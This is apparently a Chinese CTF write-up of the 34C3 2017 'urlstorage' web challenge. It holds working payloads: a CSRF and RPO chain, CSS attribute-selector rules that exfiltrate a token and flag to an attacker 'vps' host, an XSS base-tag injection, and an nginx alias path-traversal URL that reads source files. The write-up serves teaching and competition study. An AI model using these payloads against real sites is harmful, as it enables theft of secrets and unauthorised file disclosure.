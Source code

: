 # 34c3-2017-urlstorage

对题目稍微测试可以发现:
* `/urlstorage` 页面修改 url 存在 CSRF
* `/flag?token={xss}` 页面 token 参数存在 XSS，最多 64 个字符，获取 flag 只依赖前 32 位
* `/contact` 页面发送参数给 admin，用于攻击

同时站点存在 CSP
```
Content-Security-Policy: frame-ancestors 'none'; form-action 'self'; connect-src 'self'; script-src 'self'; font-src 'self' ; style-src 'self';
```

`frame-src` 和 `default-src` 未定义，因此站点可以加载任意 iframe

## rpo

因为整个站点是 django 写的，页面通过路由实现，因此在后面加入什么路径，返回的页面都与 `/urlstorage` 一样

```
http://127.0.0.1:8012/urlstorage/random_str/123 = http://127.0.0.1:8012/urlstorage
```

然后发现页面采用相对路径导入 CSS，存在 rpo 漏洞

```html
<link href="static/css/milligram.min.css" type="text/css" rel="stylesheet" media="screen,projection">
```

因此访问 `http://127.0.0.1:8012/urlstorage/random_str/123` 时，加载的 CSS 文件为 `http://127.0.0.1:8012/urlstorage/random_str/123/static/css/milligram.min.css`，后面全部被路由处理忽略，返回 urlstorage 页面的源码

![rpo](img/rpo.png)

页面源码被当作 CSS 加载，url 可控，我们便可以控制页面内容

这里有个 trick(摘自 Lorexxar 师傅博客)：
> CSS 在加载的时候与 JS 一样是逐行解析的，不同的是 CSS 会忽略页面中不符合 CSS 语法的行

尝试 POST `url=%0a{}%0a*{color:red}` 触发 rpo

![css](img/css.png)

## 获取 token
可以通过 css 选择器去匹配网页链接中的内容，结合 rpo 外带数据

```
a[href^=flag\?token\=0]{background: url(//vps/rpo/logging.php?c=0);}
a[href^=flag\?token\=f]{background: url(//vps/rpo/logging.php?c=f);}
..
a[href^=flag\?token\=10]{background: url(//vps/rpo/?c=10);}
a[href^=flag\?token\=11]{background: url(//vps/rpo/?c=11);}
..
```

在 VPS 上写入如下功能的 PoC：
1. 生成利用 CSRF 修改 admin 的 url 为 css payload 的表单
2. 提交表单到 `/urlstorage/rpo`，触发 css payload
3. 循环获取 32 位 token

这里有一个坑，由于 css 选择器在匹配的时候， 如果 value 值首字符是数字，就不会将 value 当做合法字符串，必须加双引号。
而 token 开头的字符可能为数字，flag 开头也为 34c3，单/双引号均被编码，因此都需要用其他方法生成 payload：
```
以获取 flag 为例
1. 使用css的*模糊匹配

#flag[value*=C3_1]{background: url(http://vps/?flag=C3_1);}

* 号选择器代表这属性中包含这个字段，由于flag中有_存在，所以不会对flag的获取有影响

2. 使用16进制编码

#flag[value^=\33\34\43\33]{background: url(http://vps/?flag34c3);}
```

虽然这里 `XSS-Protection=1`，但 admin 是运行在 phantomjs 上，因此应该不会有 XSS Auditor

## 获取 flag
flag 保存在一个 name 为 flag 的 textbox，同样利用 css 带出数据

payload
```
#flag[value*=C3_0]{background: url(http://vps?flag=C3_0);}
#flag[value*=C3_1]{background: url(http://vps?flag=C3_1);}
...
#flag[value*=C3_f]{background: url(http://vps?flag=C3_f);}
```

但是由于 flag 在 `/flag` 页面下，而 css 触发 rpo 是在 `/urlstorage` 页面下

这里有个知识点：
> 在浏览器处理相对路径时，一般情况是获取当前 url 的最后一个 / 前作为 base url，但如果页面中给出了 base 标签，那么就会读取 base 标签中的 url 作为 base url。

因此我们可以通过 XSS 注入 `/flag?token=06b05e82a2e5443d36d3cc34007fb8a6</title><base/href=/urlstorage/rpo>`，让 `/flag` 页面导入的 css 路径为 `/urlstorage/rpo/static/css/milligram.min.css`

官方 [PoC](exploit.php)

然后在 contact 页面提交 url  `http://127.0.0.1/flag?token=</title><iframe/src=vps/exploit.php`，一段时间后访问 `http://vps/exploit.php?flag2` 获得 flag

## 非预期
题目用了 nginx 做反向代理，其中静态文件目录配置如下

```c
 location /static {
     alias /app/urlstorage/static/;
 }
```

存在目录穿越漏洞（漏洞详情戳 [三个案例看 Nginx 配置安全](https://www.leavesongs.com/PENETRATION/nginx-insecure-configuration.html))

访问 `http://127.0.0.1:8012/static../views.py` 获得源码，直接 `/static../templates/flag.html` 获得 flag

## References
[34C3 CTF 2017 – URLSTORAGE WRITEUP](https://l4w.io/2017/12/34c3-ctf-2017-urlstorage-writeup/)
[34c3 Web部分Writeup](https://lorexxar.cn/2018/01/02/34c3-writeup/)
[【技术分析】RPO攻击技术浅析](http://blog.nsfocus.net/rpo-attack/)